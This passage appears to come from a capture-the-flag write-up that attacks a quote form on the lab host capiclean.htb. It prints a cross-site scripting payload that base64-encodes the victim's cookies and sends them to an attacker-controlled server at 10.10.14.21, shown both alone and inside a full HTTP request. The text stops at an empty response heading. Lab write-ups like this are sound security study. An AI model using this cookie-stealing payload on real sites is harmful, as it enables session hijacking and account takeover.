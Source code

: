 ## Request
 ```
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=Carpet+Cleaning&email=test%40test.com
 ```

## Response (stripped)
 ```
<p class="ipsum_text">Your quote request was sent to our management team. They will reach out soon via email. Thank you for the interest you have shown in our services.</p>
 ```
 
# XSS - http://capiclean.htb/quote

After intercepting the request and testing various payloads it was possible to send a XSS payload within the service parameter. This type of attack is often used to steal cookies. If a valid cookie was returned it may be possible to send it with future requests and gain access to the dashboard.
 
## Payload Example

Below is an example of an XSS payload which sends the cookies of the victim to a web server controlled by the attacker. In this example the cookies are also base64 encoded for data integrity.
 
 ```
 <img src=x onerror=this.src="http://10.10.14.21/"+btoa(document.cookie)/>
```

## XSS Request

The finalized request in full.

```
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=<img+src%3dx+onerror%3dthis.src%3d"http%3a//10.10.14.21/"%2bbtoa(document.cookie)/>&email=test%40test.com
```
### XSS Response
